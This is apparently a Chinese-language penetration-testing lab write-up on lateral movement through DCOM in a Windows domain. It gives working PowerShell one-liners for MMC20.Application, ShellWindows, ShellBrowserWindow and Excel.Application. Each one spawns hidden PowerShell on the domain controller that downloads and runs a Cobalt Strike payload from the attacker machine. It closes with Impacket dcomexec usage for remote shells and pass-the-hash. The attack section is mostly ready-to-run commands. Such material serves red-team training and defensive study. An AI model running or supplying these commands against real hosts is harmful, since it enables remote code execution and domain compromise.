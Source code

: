 # 利用DCOM远程命令执行横向移动

### DCOM介绍

- DCOM(分布式组件对象模型)是微软的一系列概念和程序接口。它支持不同的两台机器上的组件间的通信，不论它们是运行在局域网、广域网、还是Internet上。利用这个接口，客户端程序对象能够向网络中另一台计算机上的服务器程序对象发送请求，使用DCOM进行横向移动的优势之一在于，在远程主机上执行的进程将会是托管COM服务器端的软件

### 原理介绍

​	通过PowerShell与DCOM进行远程交互。我们只需要提供一个DCOM ProgID和一个IP地址，然后，它就从远程返回一个COM对象的实例。这样我们就可以调用"ExecuteShellCommand"发方法来在远程主机上启动某个进程。

```
//其中一个能查到即可
powershell Get-CimInstance Win32_DCOMApplication
powershell Get-CimInstance -classWin32_DCOMApplication | select appid,name
powershell Get-WmiObject -Namespace ROOT\CIMV2 -Class Win32_DCOMApplication
```

### DCOM横向前提

```
1.需要关闭系统防火墙
2.必须拥有管理员权限
3.在远程主机上执行命令时，必须使用域管的administrator账户或者目标主机具有管理员权限的账户
```

### 实验过程

| 机器位置 | IP              | 机器名称        | 登录用户           | 所属域   |
| -------- | --------------- | --------------- | ------------------ | -------- |
| 域控     | 192.168.211.10  | WIN-E0TAL57RCAA | HECK\administrator | heck.com |
| 域内机   | 192.168.211.201 | PC-2016         | HECK\zz            | heck.com |
| 攻击机 | 192.168.211.144 | /        | /                  | / |

### 1.MMC20.Application远程命令执行

- 首先得远控一台域内机器PC-2016，且拥有域管administrator权限或本地管理员权限。

  ![image-20240703131159165](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240703131159165.png)

- 使用CS构造powershell的pyload。

  ![image-20240703131413284](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240703131413284.png)

  ![image-20240703131514893](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240703131514893.png)

- 把生成的payload加入到命令中去即可上线域控。

```
//域管administrator权限或本地管理员权限
powershell [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","192.168.211.10")).Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://192.168.211.144:80/zz'))","Minimzed")
```

![image-20240703130935969](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240703130935969.png)

### 2.ShellWindows远程命令执行

- 步骤同上个组件一致，只是使用的组件不同。该组件的命令如下：

```
powershell [Activator]::CreateInstance([Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"192.168.211.10")).item().Document.Application.ShellExecute("cmd.exe","/c powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://192.168.211.144:80/zz'))","c:windowssystem32",$null,0)
```

  

### 3.ShellBrowserWindow远程命令执行

​	适用于Windows 10和Windows Server 2012 R2等版本的系统。

- 步骤同上个组件一致，只是使用的组件不同。该组件的命令如下：

```
powershell [activator]::CreateInstance([Type]::GetTypeFromCLSID("c08afd90-f2a1-11d1-8455-00a0c91f3880","192.168.211.10")).Document.Application.ShellExecute("cmd.exe","/c powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://192.168.211.144/zz'))","c:windowssystem32",$null,0)
```

### 4.Excel.Application远程命令执行

```
$com =
[activator]::CreateInstance([type]::GetTypeFromprogID("Excel.Application","192.168.211.10")).DisplayAlerts =$false
$com=[activator]::CreateInstance([type]::GetTypeFromprogID("Excel.Application","192.168.211.10")).DDEInitiate("cmd.exe","/c powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://192.168.211.144:80/zz'))")
```

### 5.Impacket中的dcomexec.py

```
dcomexec.exe [domain/]username:password@ip 				//创建一个交互shell
dcomexec.exe [domain/]username:password@ip [命令] 		//执行命令
dcomexec.exe [domain/]username:@ip -hashes [hash]		//hash传递
```


